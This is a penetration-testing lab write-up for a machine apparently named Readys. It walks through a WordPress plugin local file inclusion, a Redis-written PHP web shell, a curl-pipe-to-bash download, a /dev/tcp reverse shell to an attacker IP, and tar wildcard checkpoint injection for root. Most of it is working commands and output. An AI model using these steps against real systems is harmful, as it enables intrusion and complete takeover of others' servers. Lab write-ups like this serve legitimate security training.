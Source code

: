## NMAP

```
sudo nmap -sC -sV -p- 192.168.68.166
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-28 08:40 CDT
Nmap scan report for 192.168.68.166
Host is up (0.042s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74ba2023899262029fe73d3b83d4d96c (RSA)
|   256 548f79555ab03a695ad5723964fd074e (ECDSA)
|_  256 7f5d102762ba75e9bcc84fe27287d4e2 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Readys &#8211; Just another WordPress site
|_http-generator: WordPress 5.7.2
|_http-server-header: Apache/2.4.38 (Debian)
6379/tcp open  redis   Redis key-value store
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.94 seconds
```

## Enumeration

I have Redis but it requires auth and basic trial an error proves it is not default or the hostname.

I ran wp-scan and found that there is a plugin.

I have LFI on WP using an old plugin called site-editor:
```
http://192.168.68.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```
We have a user called alice with a home of /home/alice

I was able to find the redis configuration.
```
GET /wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis/redis.conf HTTP/1.1
```
requirepass Ready4Redis?
We have redis credentials

Now we need to utilize redis to write a shell to give us remote code execution or a reverse shell.

We can find the webroot by checking out **/etc/apache2/sites-enabled/000-default.conf**.
Looking at the config we see the default is /var/www/html. Attempting to write there we get an error.

Redis does allow limiting writing to certain folders. We can check the permissions on the service to determine them.
**/etc/systemd/system/redis.service**.

We find that we can write files to /etc/redis and /opt/redis-files. While attempting to write to /etc/redis, we come across an error that says redis is configured to save RDB snapshots. This does not allow us to save. 

Moving over to /opt/redis-files, we can write.

```sh
192.168.68.166:6379> config set dir /opt/redis-files
OK
192.168.68.166:6379> config set dbfilename redis.php
OK
192.168.68.166:6379> set test "<?php system($_GET['cmd']); ?>"
OK
192.168.68.166:6379> save
OK
192.168.68.166:6379> set test "<?php system('id'); ?>"
OK                                                                                                                  
192.168.68.166:6379> save
```

Ended up changing to ID as the command option failed. It showed that we were running as alice. We know we can run php from this directory and have it perform remote commands.

## Exploitation

I then created the following to run the command and connect back to my netcat instance.

```sh
config set dbfilename redis.php
OK
192.168.68.166:6379> config set dir /opt/redis-files
OK
set test "<?php system('curl 192.168.49.68/shell.sh | bash'); ?>"
OK
save
OK
```

Above we created a curl request that sends to bash.

I then started a python webshell to host the following shell:

```shell.sh
#!/bin/bash

/bin/bash -i >& /dev/tcp/192.168.49.68/9002 0>&1
```

```sh
nc -lvnp 9002
listening on [any] 9002 ...
connect to [192.168.49.68] from (UNKNOWN) [192.168.68.166] 46094
bash: cannot set terminal process group (541): Inappropriate ioctl for device
bash: no job control in this shell
<ite-editor/editor/extensions/pagebuilder/includes$ whoami
whoami
alice
<ite-editor/editor/extensions/pagebuilder/includes$ cd /home 
cd /home
alice@readys:/home$ ls
ls
alice
alice@readys:/home$ cd alice
cd alice
alice@readys:/home/alice$ ls
ls
local.txt
alice@readys:/home/alice$ ls -la
ls -la
total 24
drwxr-xr-x 2 alice alice 4096 Nov 12  2021 .
drwxr-xr-x 3 root  root  4096 Nov 12  2021 ..
lrwxrwxrwx 1 root  root     9 Nov 12  2021 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 alice alice 3526 Apr 18  2019 .bashrc
-rw-r--r-- 1 alice alice  807 Apr 18  2019 .profile
-rw------- 1 alice alice   33 Mar 29 22:14 local.txt
alice@readys:/home/alice$ cat /etc/crontab
cat /etc/crontab                                                                                                    
*/3 * * * * root /usr/local/bin/backup.sh                                                                                                                                       
```
From here we find that there is a script that runs every 3 minutes. We can check out the backup script.
```  sh                                                            
alice@readys:/home/alice$ cat /usr/local/bin/backup.sh                                                              
cat /usr/local/bin/backup.sh                                                                                        
#!/bin/bash                                                                                                         
                                                                                                                    
cd /var/www/html                                                                                                    
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then                                                               
tar -cf /opt/backups/website.tar *                                                                                  
fi                                                                                                                  
```
So it runs a tar command with a wildcard. Looking this up, there is a way to add additional commands to tar by creating files that act like commands. First we make sure we can write to the folder.
```sh
alice@readys:/home/alice$ ls -l /var/www                                                                            
ls -l /var/www                                                                                                      
total 4                                                                                                             
drwxr-xr-x 5 alice alice 4096 Mar 29 22:24 html
```

We can write to it. Lets start by creating the command file and then running touch to create a checkpoint to run the command to run the shell script.  https://www.gnu.org/software/tar/manual/html_section/checkpoints.html

``` sh
alice@readys:/home/alice$ cd /var/www/html                                                                          
cd /var/www/html                                                                                                    
alice@readys:/var/www/html$ echo "chmod +s /bin/bash" > exploit.sh                                                  
echo "chmod +s /bin/bash" > exploit.sh                                                                              
alice@readys:/var/www/html$ touch ./"--checkpoint=1"                                                                
touch ./"--checkpoint=1"                                                                                            
alice@readys:/var/www/html$ touch ./"--checkpoint-action=exec=bash exploit.sh"                                      
< touch ./"--checkpoint-action=exec=bash exploit.sh"                                                                
alice@readys:/var/www/html$ ls -l /bin/bash                                                                         
ls -l /bin/bash                                                                                                     
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash                                                               
alice@readys:/var/www/html$ /bin/bash -p                                                                            
/bin/bash -p                                                                                                        
whoami                                                                                                              
root                                                                                                                
cat /root/proof.txt 
```
We have root!